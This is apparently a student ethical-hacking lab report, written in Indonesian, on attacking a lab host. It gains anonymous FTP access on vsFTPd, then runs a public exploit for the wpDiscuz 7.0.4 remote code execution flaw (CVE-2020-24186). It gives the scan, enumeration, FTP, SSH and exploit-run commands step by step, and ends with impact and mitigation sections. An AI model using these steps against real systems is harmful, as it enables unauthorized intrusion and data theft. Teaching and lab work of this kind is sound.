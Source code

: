 # ETHACK-PRAKTIKUM-2-2024

1. Cover Page

Nama Praktikan: Muhammad Kenas Galeno Putra
NRP: 5027231069
Judul Praktikum: Vulnerability Exploitation on FTP and WordPress Plugins

2. Nama Kerentanan

Vulnerable FTP: vsFTPd 3.0.5
Vulnerable WordPress Plugin: wpDiscuz 7.0.4 (Remote Code Execution)

3. Deskripsi Kerentanan

Vulnerable FTP: Kerentanan pada server FTP ini memungkinkan akses anonymous, sehingga siapa pun bisa mengakses dan mengunduh file tanpa autentikasi, yang dapat berisiko jika file tersebut berisi informasi sensitif.
Vulnerable WordPress Plugin: Plugin wpDiscuz versi 7.0.4 rentan terhadap Remote Code Execution (RCE), memungkinkan penyerang menjalankan perintah di server yang menggunakan plugin ini.

4. CVSS Score

Vulnerable FTP: CVSS Score: 5.0 (Medium) – Risiko dari akses unauthorized namun tidak langsung memberikan kendali penuh ke sistem.
wpDiscuz RCE: CVSS Score: 9.8 (Critical) – Kerentanan RCE memberikan akses penuh penyerang ke server.

5. Langkah Pengerjaan

Vulnerable FTP:
Pindai server untuk menemukan port yang terbuka:

```bash
nmap -p 21,22,80,443 10.15.42.245                                                         
```
![langkah 1](https://github.com/user-attachments/assets/c1c2c175-0904-42e9-ad4e-10f43bda4e87)


Pindai kerentanan FTP dengan Nmap:

```bash
gobuster dir --url http://10.15.42.245:487 --wordlist /usr/share/wordlists/dirb/common.txt
```
![langkah 2](https://github.com/user-attachments/assets/e1622ada-0dc9-4a72-b402-35f5904e8fd5)


Login ke FTP menggunakan akun anonymous:

```bash
ftp 10.15.42.245
```

```bash
ls
get list.xyz
get readme.txt
exit
```

![langkah 3](https://github.com/user-attachments/assets/ddb6a8dd-5e9e-4240-966f-124bf9380e0a)


Mencari username atau password dalam file:

```bash
cat list.xyz
grep -i "ethack" list.xyz
```

![langkah 4](https://github.com/user-attachments/assets/af24be7f-4219-40a3-8dd3-0d9b06e7c6e8)

Masukkan password pada hashes.txt

```bash
nano hashes.txt
```

![langkah 5](https://github.com/user-attachments/assets/70d6be57-2b69-45ee-a9f4-4fbfed67d89c)

ssh ethack@10.15.42.245

![langkah 12](https://github.com/user-attachments/assets/2ca41880-cebd-4436-aa96-bcf6416946d0)


ls -l

cat readme.txt

![langkah 13](https://github.com/user-attachments/assets/729aab3a-0f7e-41c0-8db6-b2553c250bee)



http://10.15.42.245:487

![langkah 6](https://github.com/user-attachments/assets/4b46ba37-e4cb-4191-a71a-ef75216d3920)

```bash
wpscan --url http://10.15.42.245:487 --enumerate p
```
![langkah 7](https://github.com/user-attachments/assets/86286eda-8900-48d6-8cf4-5b5a101df2f5)

Clone exploit wpDiscuz:

```bash
git clone https://github.com/hev0x/CVE-2020-24186-wpDiscuz-7.0.4-RCE
```
![langkah 8](https://github.com/user-attachments/assets/ce1f2b97-1a83-4b2e-a69e-c977bfb87140)

Jalankan exploit:

```bash
cd CVE-2020-24186-wpDiscuz-7.0.4-RCE
```

```bash
sudo python3 wpDiscuz_RemoteCodeExec.py -u http://10.15.42.245:487 -p /2024/10/03/trial/
```
![langkah 9](https://github.com/user-attachments/assets/42e42452-3951-4645-b4fe-8b848ad104e1)

Tampilkan:

```bash
ls
```
![Screenshot 2024-10-07 080334](https://github.com/user-attachments/assets/b5dffc1e-da77-41b9-bffc-e02bcf77ebeb)


6. Dampak

Vulnerable FTP: Akses unauthorized memungkinkan pengunduhan file yang mungkin berisi informasi sensitif seperti hash password, data pengguna, atau file penting lainnya.
wpDiscuz RCE: Penyerang bisa mengeksekusi perintah di server, yang bisa mengarah ke kontrol penuh atas server WordPress, termasuk pencurian data, defacement website, dan tindakan jahat lainnya.

7. Mitigasi

FTP Vulnerability:
Nonaktifkan akses anonymous pada FTP.
Gunakan protokol yang lebih aman seperti SFTP atau FTPS.
wpDiscuz RCE:
Patch plugin ke versi terbaru.
Batasi akses ke plugin dan pantau aktivitas server secara berkala untuk mendeteksi aktivitas mencurigakan.
